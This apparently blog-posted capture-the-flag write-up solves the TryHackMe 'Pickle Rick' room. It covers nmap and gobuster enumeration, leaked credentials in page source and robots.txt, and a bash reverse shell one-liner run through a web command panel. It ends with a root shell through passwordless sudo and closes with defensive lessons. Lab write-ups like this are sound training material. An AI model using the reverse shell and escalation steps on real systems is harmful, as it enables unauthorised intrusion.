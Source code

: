 ```yaml
---
title: "TryHackMe - Pickle Rick Writeup"
date: 2021-07-10
draft: false
tags: ["gobuster"]
thm: "TryHackMe"
linux: "Linux"
---
```


[Link : https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Enumeration

First, let’s do an enumeration with the IP address of this machine. I’m gonna run Nmap [Netwok Mapper] to scan any open ports. I’m gonna run this command

```
nmap -sC -sV -oN nmap/initial <machine ip>
```

### Explaining the nmap scan:
* -sC	:= scan using nmap default script
* -sV	:= scan for version
* -oN := output in normal format

![2](2.png)

Nmap scan shows us. There are 2 ports open ssh and HTTP. First, I’m gonna check port 80 because not common for ssh to log in as anonymous. Let’s check it out.

Cool! we got this web page

![3](3.png)

This is the very first thing I’m gonna do. You always need to check the page source code maybe we can find something interesting. Well, yes we did.

![4](4.png)

In this page source. We can see the comment says `Note to self, remember username!`. We have a username. Unfortunately, we don’t know where to log in as this username.

Well, I’m gonna run gobuster. Gobuster is a tool to find the hidden directory on this website

```
gobuster dir -u http://<machine ip> -w /path/to/wordlist.txt -x php,.txt,.html
```

![5](5.png)

The scan result shows us the hidden directory called `login.php` with status code 200 and we also found `robots.txt`

Let’s take a look at the login.php and robots.txt

![6](6.png)

If you remember. In the beginning, we found the username. If you look closely at the robots.txt it looks like something, maybe it is the password. Let’s try it.

![7](7.png)

wow! it’s working. We can see on this page, we can run the command in that box. So, I’m gonna execute reverse shell on that to make an easy foothold.

![8](8.png)

## Foothold/Gaining Access

![9](9.png)

```bash
bash -c ‘bash -i >& /dev/tcp/<your ip>/<listening port> 0>&1’
```

![10](10.png)

First, what I like to do is run the `sudo -l` command to check sudo permission/capability.

![11](11.png)

After, we ran that command. It says “(ALL) NOPASSWD: ALL”. This says 
> ‘Hey dude! you can run sudo without a password at all and be free to use it’.

This happens because of not properly configure the user and root.

Now, Let’s try find the first ingredient Rick needs.

![12](12.png)

Ok. We just have the first ingredient. However, We need two more the ingredient. So, let’s try to see any user home directory exists. Look like the user `rick` exists. Let’s try to check it out.

![13](13.png)

## Privilege Escalation

As we know, This user `www-data` can run sudo without a password at all. This means we can be root by running the command sudo su.

![14](14.png)

WoW! We just solve this box with ease and gain a lot of knowledge.

## Conclusion

I’ve learned a lot today. This shows us how dangerous it is if you don’t configure something properly. In this case, the sudo command. However, An attacker can be root in your machine if they have a good and strong foothold. Well, before an attacker can access make sure you have to patch all of your weak systems. In this machine, the website can execute bash. This is bad and an attacker easily got the reverse shell.

This room so much fun and I hope you guys have fun and learn something new today.